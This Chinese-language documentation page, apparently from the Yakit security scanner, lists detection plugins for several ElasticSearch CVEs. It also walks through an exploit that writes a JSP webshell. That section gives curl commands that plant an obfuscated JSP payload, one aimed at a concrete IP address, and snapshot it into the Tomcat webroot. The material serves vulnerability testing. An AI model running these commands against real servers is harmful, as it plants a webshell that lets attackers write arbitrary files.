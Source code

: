 ```yaml
---
sidebar_position: 17
---
```

# ElasticSearch

## 1 CVE-2014-3120 远程代码执行漏洞检测

**插件id：**

e8518ead-d759-4789-9531-73cb88c4eda7

**测试过程：**

将测试网站地址输入到该插件扫描目标栏，修改插件的额外参数添加端口号
插件成功检测到该漏洞

![](/img/products/yakit/ElasticSearch-1.png)

## 2 CVE-2015-1427 远程代码执行漏洞检测

**插件id：**

77975554-aa02-4d5d-b6dc-e960090b7288

**测试过程：**

将测试网站地址输入到该插件扫描目标栏，修改插件的额外参数添加端口号
插件成功检测到该漏洞

![](/img/products/yakit/ElasticSearch-2.png)

## 3 CVE-2015-3337 目录穿越漏洞检测

**插件id：**

4da6b591-5b7f-46b3-8f5c-84af1445e32c

**测试过程：**

将测试网站地址输入到该插件扫描目标栏，修改插件的额外参数添加端口号
插件成功检测到该漏洞

![](/img/products/yakit/ElasticSearch-3.png)

## 4 CVE-2015-5531 目录遍历与文件读取漏洞检测

**插件id：**

Yakit正在努力编写~

**测试过程：**

将测试网站地址输入到该插件扫描目标栏，修改插件的额外参数添加端口号
插件成功检测到该漏洞

![](/img/products/yakit/ElasticSearch-4.png)

## 5 WooYun-2015-110216 写入webshell漏洞

**插件id：**

Yakit正在努力编写~

**测试过程：**

首先创建一个恶意索引文档：

```go
curl -XPOST http://185.238.248.179:9200/yz.jsp/yz.jsp/1 -d'
{"<%new java.io.RandomAccessFile(application.getRealPath(new String(new byte[]{47,116,101,115,116,46,106,115,112})),new String(new byte[]{114,119})).write(request.getParameter(new String(new byte[]{102})).getBytes());%>":"test"}
'
```

再创建一个恶意的存储库，其中location的值即为我要写入的路径。

```go
curl -XPUT 'http://xx.x.x.xxx:xxxx/_snapshot/yz.jsp' -d '{
     "type": "fs",
     "settings": {
          "location": "/usr/local/tomcat/webapps/wwwroot/",
          "compress": false
     }
}'
'
```

存储库验证并创建:

```go
curl -XPUT "http://xx.x.x.xxx:xxxx/_snapshot/yz.jsp/yz.jsp" -d '{
     "indices": "yz.jsp",
     "ignore_unavailable": "true",
     "include_global_state": false
}'
```

![](/img/products/yakit/ElasticSearch-5.png)

访问http://xx.x.x.xxx:xxxx//wwwroot/indices/yz.jsp/snapshot-yz.jsp
这就是我们写入的webshell
该shell的作用是向wwwroot下的test.jsp文件中写入任意字符串
如：http://xx.x.x.xxx:xxxx/wwwroot/indices/yz.jsp/snapshot-yz.jsp?f=success，我们再访问/wwwroot/test.jsp就能看到success了

![](/img/products/yakit/ElasticSearch-6.png)
